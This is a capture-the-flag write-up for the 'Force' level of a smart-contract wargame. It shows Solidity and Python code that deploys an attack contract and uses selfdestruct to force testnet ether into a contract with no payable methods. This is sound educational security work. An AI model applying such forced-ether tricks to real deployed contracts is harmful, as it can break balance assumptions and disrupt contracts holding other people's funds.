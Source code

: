 # Force

## Objectives

The goal of this level is to make the balance of the contract greater than zero.

## Solution

From my research, there's several ways of sending funds to a contract that has no `payable` methods:

1. Send funds to the address the contract will be deployed in, because contract addresses are deterministic.

2. Send funds to the contract by destroying of another contract, which sends all of its balance through `selfdestruct(<destination>)`.

3. By making it the recipient of a block reward, which can't be rejected.

Because the instance of the Force contract is already deployed, the easiest way we can complete the objective is through number 2.

## How I did it

1. Deploy an attacking contract called ForceAttack (at: `0xba2C7CAE436F3710500507d1f5cf07229C3d0C66`)

```python
forceattack = ForceAttack.deploy(_from)
```

And make sure the contract can receive funds and also has a function that calls `selfdestruct()` to the contract address of our instance:

```cs
function reload() external payable {}

function forceEtherIntoAddress(address payable _to) external onlyOwner {
    selfdestruct(_to);
}
```

I also optionally added a fallback `receive()` function and made the contract `Ownable` so that only I could call the `selfdestruct()` function (not that anyone would've done it anyway...)

2. Send some funds into the contract.

```python
forceattack.reload({'value': 1000} | _from)
```

Block explorer: https://rinkeby.etherscan.io/tx/0xcd6a2d6d2e618742a61f919924ac1093fc92b942ee6b22ce95f5961505b9df49

3. Call the function that calls `selfdestruct()` designating my instance address as the recipient of the funds.

```python
forceattack.forceEtherIntoAddress(force.address)
```

Block explorer: https://rinkeby.etherscan.io/tx/0x936c5b1b5131c445f80eb7e38c1d1c766e8134a06c07613b07a7524f33da0faa

4. Confirm that the contract balance is > 0

```python
balance_assertion = force.balance() > 0
print(f'Current balance of the contract is {force.balance()}, is this greater than zero: {balance_assertion}')
```

### Submission transaction

Block explorer: https://rinkeby.etherscan.io/tx/0xef8a1831aa8bec120b9c1fc966b254dc296a8f6eb23a72cf28545958fd0a07b2
